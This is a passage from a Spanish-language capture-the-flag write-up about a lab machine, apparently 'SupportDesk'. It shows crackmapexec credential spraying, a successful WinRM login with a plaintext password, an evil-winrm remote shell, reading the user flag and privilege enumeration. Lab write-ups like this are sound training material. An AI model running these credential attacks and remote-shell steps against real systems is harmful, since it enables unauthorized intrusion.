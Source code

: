 ```bash
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\Jason:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\Jason:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\Jason:stealth1agent STATUS_LOGON_FAILURE
```

- El usuario Chase usa una contraseña que tenemos además el usuario forma parte del grupo `Remote Management Users`.

```bash
➜  content crackmapexec winrm 10.129.116.26 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
SMB         10.129.116.26   5985   SUPPORTDESK      [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.129.116.26   5985   SUPPORTDESK      [*] http://10.129.116.26:5985/wsman
WINRM       10.129.116.26   5985   SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```

- Ahora podemos usar `evil-winrm` para conectarnos.

```bash
➜  content evil-winrm -i 10.129.116.26 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
```

# user flag

- Podemos leer la `user flag`.

```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> type C:\Users\Chase\Desktop\user.txt
03b82a9b1533ba49d298214751e7bd51
```

## Escalada de privilegios

- No tenemos ningún privilegio interesante.

```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\Chase\Documents>
```
